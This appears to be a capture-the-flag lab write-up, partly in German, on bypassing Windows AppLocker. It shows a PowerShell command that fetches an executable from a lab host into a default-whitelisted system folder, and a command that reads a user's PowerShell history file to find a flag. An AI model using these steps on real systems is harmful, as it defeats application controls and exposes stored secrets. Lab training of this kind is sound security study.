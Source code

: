*AppLocker ist ein Sicherheitsfeature in Windows, das Administratoren ermöglicht, genau zu steuern, welche Anwendungen von Benutzern auf einem Windows-System ausgeführt werden können. Durch die Festlegung von Richtlinien basierend auf Kriterien wie Dateipfad, digitaler Signatur des Herausgebers oder Dateityp können sie sicherstellen, dass nur autorisierte Anwendungen gestartet werden. Dies erhöht die Sicherheit des Systems, indem das Risiko von Malware-Infektionen und nicht autorisierten Programmen minimiert wird.*

Answer the questions below
---

1. There are many ways to bypass AppLocker.

    If AppLocker is configured with default AppLocker rules, we can bypass it by placing our executable in the following directory: C:\Windows\System32\spool\drivers\color - This is whitelisted by default. 

    Go ahead and use PowerShell to download an executable of your choice locally, place it in the whitelisted directory and execute it.

    *no answer needed*

    Um eine entsprechende ausführbare Datei hochzuladen:

    `Invoke-WebRequest -Uri 'http://10.9.0.54:8000/bypass.exe' -OutFile 'C:\Windows\System32\spool\drivers\color\bypass.exe'
    `

2. Just like Linux bash, Windows Powershell saves all previous commands into a file called ConsoleHost_history. This is located at %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt

    Access the file and obtain the flag.

    **flag{xxxxxxxxxxxxxxxxxxxxx}**

   `Get-Content \Users\dark\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt`

   